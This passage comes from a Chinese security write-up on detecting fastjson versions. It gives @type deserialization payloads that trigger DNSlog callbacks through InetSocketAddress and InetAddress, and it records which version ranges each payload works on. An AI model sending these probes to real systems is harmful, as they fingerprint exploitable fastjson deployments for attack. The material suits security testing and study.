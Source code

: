 ```
[{&#34;@type&#34;:&#34;java.lang.Exception&#34;,&#34;@type&#34;:&#34;com.alibaba.fastjson.JSONException&#34;,&#34;x&#34;:{&#34;@type&#34;:&#34;java.net.InetSocketAddress&#34;{&#34;address&#34;:,&#34;val&#34;:&#34;§1§.80.{{URL}}&#34;}}},{&#34;@type&#34;:&#34;java.lang.Exception&#34;,&#34;@type&#34;:&#34;com.alibaba.fastjson.JSONException&#34;,&#34;message&#34;:{&#34;@type&#34;:&#34;java.net.InetSocketAddress&#34;{&#34;address&#34;:,&#34;val&#34;:&#34;§1§.83.{{URL}}&#34;}}}]
```

####   
  
实验结论：  
带有83的dnslog记录只会在
```
fastjson 1.2.83
```

  
中出现。  
  
![图片](https://mmbiz.qpic.cn/mmbiz_png/Zickicb0jJV0LM4Mw4pld2dVSBfMkeL2HbokqZAj1yehaYJDWs7SVqDeLKQ5UgKWnQr0GY40SAzhdkC7BDDybktA/640?wx_fmt=png&from=appmsg&randomid=i6on9ixl&tp=webp&wxfrom=5&wx_lazy=1 "")  
  
带有80的dnslog记录，可用范围1.2.9以上，不可用版本1.2.1-1.2.8。  
#### 测试语句9：【1.2.9<=fastjson<=1.2.68】  

```
[{&#34;@type&#34;: &#34;java.lang.AutoCloseable&#34;,&#34;@type&#34;: &#34;java.io.ByteArrayOutputStream&#34;},{&#34;@type&#34;: &#34;java.io.ByteArrayOutputStream&#34;},{&#34;@type&#34;: &#34;java.net.InetSocketAddress&#34;{&#34;address&#34;:,&#34;val&#34;: &#34;§1§.{{URL}}&#34;}}]
```

  
实验结论：  
可用范围
```
1.2.9
```

  
以上，
```
1.2.68
```

  
以下，即1.2.9<=fastjson版本<=1.2.68；不可用版本1.2.83、1.2.69-1.2.80、1.2.1-1.2.8。  
####   
#### 测试语句10：【1.2.9<=fastjson<=1.2.47】  

```
{&#34;@type&#34;:&#34;java.net.InetAddress&#34;,&#34;val&#34;:&#34;§1§.{{URL}}&#34;}
```

  
实验结论：  
可用范围
```
1.2.9
```

  
以上，
```
1.2.47
```
